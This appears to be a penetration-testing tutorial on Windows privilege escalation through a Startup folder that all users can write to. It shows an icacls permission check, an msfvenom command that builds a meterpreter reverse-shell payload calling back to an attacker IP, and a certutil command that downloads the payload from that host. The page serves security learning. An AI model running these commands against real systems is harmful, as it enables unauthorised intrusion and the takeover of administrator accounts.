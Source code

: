 
<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

## Privilege Escalation - Startup Applications

In Windows, as in other operating systems, we can configure some applications to run on boot, including their system privilege. So, if we have permission to write the `Startup folder`, we can execute malicious files automatically after that some user (we hope admin) do the login.

There are actually two startup folders on your computer. One is the <mark style="color:blue;">**personal startup folder**</mark> for your account, which is located here:

`C:\Users\USERNAME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

The other startup folder contains programs that automatically run for <mark style="color:blue;">**every user**</mark> on your computer. You can find this at:

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

To detect this misconfiguration, we use `icacls` that give us the lists of permissions of the specified file:

```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

<figure><img src="broken-reference" alt=""><figcaption><p>DACLs on Startup Folder</p></figcaption></figure>

In this case, we can see that the `BUILTIN\Users` group has full access <mark style="color:red;">**(F)**</mark> to the Startup directory. Since our user belongs to the Users group, we can put the malicious file that will be generated automatically.

### Exploitation

To do the exploitation of this vulnerability, we set a Metasploit listener:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Then we generate the malicious file:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.4.250 LPORT=4444 -f exe -o startup.exe
```

and we download the file from attacker machine using certutil:

```powershell
certutil -f -urlcache http://10.18.4.250:8000/startup.exe startup.exe
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Now, we simulate the login of the “TCM” user (that is admin) by RDPing on machine:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
